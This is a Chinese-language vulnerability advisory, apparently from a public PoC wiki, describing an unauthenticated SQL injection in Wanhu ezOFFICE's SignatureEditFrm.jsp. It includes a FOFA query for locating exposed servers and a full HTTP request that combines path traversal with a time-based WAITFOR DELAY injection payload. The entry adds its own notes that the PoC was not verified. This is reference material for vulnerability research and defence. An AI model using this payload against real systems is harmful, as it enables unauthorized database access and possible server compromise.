


# 万户ezOFFICE SignatureEditFrm.jsp SQL注入

## 条目说明

- 对象与具体问题：万户ezOFFICE；SignatureEditFrm.jsp SQL注入
- 版本、配置及部署条件：无版本；SQL Server WAITFOR及复杂路径解析
- 认证与权限前提：声称未授权；无凭证请求
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 原始HTTP未放代码块导致格式不稳定
- 路径中OfficeServer.jsp/../../需解释容器标准化/鉴权绕过前提
- 无来源支撑在野利用/低难度/RCE扩大影响

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

万户 ezOFFICE SignatureEditFrm.jsp接口存在SQL注入漏洞，未授权的攻击者可利用此漏洞获取数据库权限，深入利用可获取服务器权限。

## 影响版本

万户网络-ezOFFICE

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="万户网络-ezOFFICE"

POC/EXP：

```http
GET /defaultroot/iWebOfficeSign/OfficeServer.jsp/../../public/iWebRevision.jsp/Signature/SignatureEditFrm.jsp?SignatureID=1;WAITFOR%20DELAY%20%270:0:7%27-- HTTP/1.1
Host: 127.0.0.1:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```








## 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
